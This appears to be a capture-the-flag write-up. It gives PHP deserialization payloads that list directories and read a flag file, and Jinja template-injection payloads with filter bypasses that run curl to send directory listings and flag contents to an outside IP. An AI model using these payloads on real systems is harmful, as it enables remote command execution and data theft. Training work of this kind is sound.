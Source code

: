 # easyphp

遍历目录

```php
<?php
class XMAN{
    public $class="FilesystemIterator";
    public $para="/var/www/html";
    public $check;
}

$a=new XMAN();
echo urlencode(serialize($a));
```

xctf=O%3A4%3A"XMAN"%3A3%3A{s%3A5%3A"class"%3Bs%3A18%3A"FilesystemIterator"%3Bs%3A4%3A"para"%3Bs%3A13%3A"%2Fvar%2Fwww%2Fhtml"%3Bs%3A5%3A"check"%3BN%3B}

```php
<?php
class XMAN{
    public $class="FilesystemIterator";
    public $para="/var/www/html/xxxXXXmMManNNn";
    public $check;
}

$a=new XMAN();
echo urlencode(serialize($a));
```

xctf=O%3A4%3A"XMAN"%3A3%3A{s%3A5%3A"class"%3Bs%3A18%3A"FilesystemIterator"%3Bs%3A4%3A"para"%3Bs%3A28%3A"%2Fvar%2Fwww%2Fhtml%2FxxxXXXmMManNNn"%3Bs%3A5%3A"check"%3BN%3B}

```php
<?php
class XMAN{
    public $class="SplFileObject";
    public $para="/var/www/html/xxxXXXmMManNNn/f1a4.php";
    public $check;
}

$a=new XMAN();
echo urlencode(serialize($a));
```

xctf=O%3A4%3A"XMAN"%3A3%3A{s%3A5%3A"class"%3Bs%3A13%3A"SplFileObject"%3Bs%3A4%3A"para"%3Bs%3A37%3A"%2Fvar%2Fwww%2Fhtml%2FxxxXXXmMManNNn%2Ff1a4.php"%3Bs%3A5%3A"check"%3BN%3B}

# 你的名字

```python
{% iconfigf ''.__claconfigss__.__mrconfigo__[2].__subclaconfigsses__()[59].__init__.func_gloconfigbals.linecconfigache.oconfigs.popconfigen('curl http://39.96.83.106:8080/ -d `ls /|base64`') %}1{% endiconfigf %}
```

![image-20210806105335131](wp/image-20210806105335131.png)

![image-20210806105253118](wp/image-20210806105253118.png)

```python
{% iconfigf ''.__claconfigss__.__mrconfigo__[2].__subclaconfigsses__()[59].__init__.func_gloconfigbals.linecconfigache.oconfigs.popconfigen('curl http://39.96.83.106:4567/ -d `cat /flag_1s_Hera|base64`') %}1{% endiconfigf %}
```


